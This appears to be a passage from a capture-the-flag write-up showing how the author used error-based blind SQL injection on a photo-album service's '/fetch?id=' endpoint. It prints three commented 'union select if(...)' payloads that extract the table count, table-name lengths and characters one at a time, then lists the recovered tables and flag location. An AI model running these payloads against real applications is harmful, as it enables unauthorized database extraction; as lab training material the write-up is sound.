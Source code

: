 An example of getting the number of tables (formatted for readability):
```
/fetch?id=1 union select if(
  (
    select count(*) from information_schema.tables
    where table_schema not in (                       -- Exclude system tables
      'information_schema',
      'mysql',
      'performance_schema',
      'sys'
    )
  ) < 10,                                             -- Is the number of tables less than 10?
  (select table_name from information_schema.tables), -- Produces runtime error
  null                                                -- Results in a no-op basically
)`
```

An example of getting the length of a single table name:
```
/fetch?id=1 union select if(
  (
    select length(table_name) from information_schema.tables
    where table_schema not in (                       -- Exclude system tables
      'information_schema',
      'mysql',
      'performance_schema',
      'sys'
    )
    limit 1                                           -- Limit to a single table
    offset 1                                          -- Offset to get details of the second table
  ) < 10,                                             -- Is the number of tables less than 10?
  (select table_name from information_schema.tables), -- Produces runtime error
  null                                                -- Results in a no-op basically
)`
```

An example of getting a character in a string:
```
/fetch?id=1 union select if(
  (
    select ascii(                                     -- Ascii code of a character, means we can re-use common numerical binary search logic
      substring(filename, 6, 1)                       -- The 6th character of the string (SQL uses 1-indexing here)
    ) from photos
  ) < 130,                                            -- Is the ascii value of the character less than 130?
  (select table_name from information_schema.tables), -- Produces runtime error
  null                                                -- Results in a no-op basically
)`
```

I wrote a series of scripts because it would be hell-ish to do this by hand, and eventually (blind sqli is quite slow,
especially if the target service is running in a low-powered Docker container because it's a free CTF) I found:
 - There are 2 tables: `albums` and `photos`
 - `albums` has an `id` and a `title`
 - `photos` has `id`, `title`, `filename`, and `parent`
 - There is 1 album titled "Kittens" and only 3 photos, all of which are in the album
 - Photo 1: `title: Utterly adorable`, `filename: files/adorable.jpg`
 - Photo 2: `title: Purrfect`, `filename: files/purrfect.jpg`
 - Photo 3: `title: Invisible`, `filename: <flag>`
